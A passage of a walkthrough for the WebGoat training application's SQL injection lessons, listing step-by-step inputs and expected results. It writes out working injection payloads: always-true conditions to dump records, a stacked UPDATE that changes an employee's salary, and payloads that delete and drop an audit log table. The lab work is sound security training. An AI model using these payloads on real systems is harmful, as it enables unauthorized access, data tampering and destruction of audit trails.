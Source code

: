 ![](https://i.imgur.com/3t6cJrN.png)

2. Message "Succeeded" should be returned
3. Go to page 10
4. Inject the login count by entering the following values:
	- `Login_Count: 0`
	- `User_Id: 0 or 1=1`
5. Message: "Succeeded"
6. Go to page 11

![600](https://i.imgur.com/MPptDfT.png)

7. Inject Employee Name by entering the following values:
	- Employee Name: `a' or '1' = '1 `
	- Authentication TAN: `3SL99A`
8. Message: "Retrieved one record"
9. Inject both Employee Name and Authentication TAN
	- Employee Name: `a' or '1' = '1 `
	- Authentication TAN: `3SL99A' or '1' = '1`
10. Message: "Succeeded"
11. Go to page 12

![](https://i.imgur.com/mjmsCSL.png)

12. Find salary for John Smith
	- Employee Name: `Smith`
	- Authentication TAN: `3SL99A`
13. John Smith's record is returned:

![](https://i.imgur.com/oIAVzRw.png)

14. SQL inject Authentication TAN and chain another `UPDATE` statement to update John Smith's salary to high figure
	- Employee name: `Smith`
	- Authentication TAN: `3SL99A'; update employees set salary=100000 where userid='37648`
15. Message: "Well done"
16. Go to page 13

![](https://i.imgur.com/kAdMDv6.png)

17. Enter "update" as Action and click **Search Log**
18. Update statement ran to update John Smith's salary is displayed

![](https://i.imgur.com/nMERfAx.png)

19. Use SQL injection to delete all record from `access_log` table
	- Action contains: `update'; delete from access_log --`
20. Drop the `access_log` table
	- Action contains: `update'; drop table access_log --`
21. Message: "Success"

## WebGoat (Injection Flaws) - SQL Injection (Advanced)
### SQL Injection with UNION
> **Note while working with UNION**
> - Number of columns selected in each statement must be the same
> - Datatype of first column in first SELECT statement must match datatype of first column in the second SELECT statement
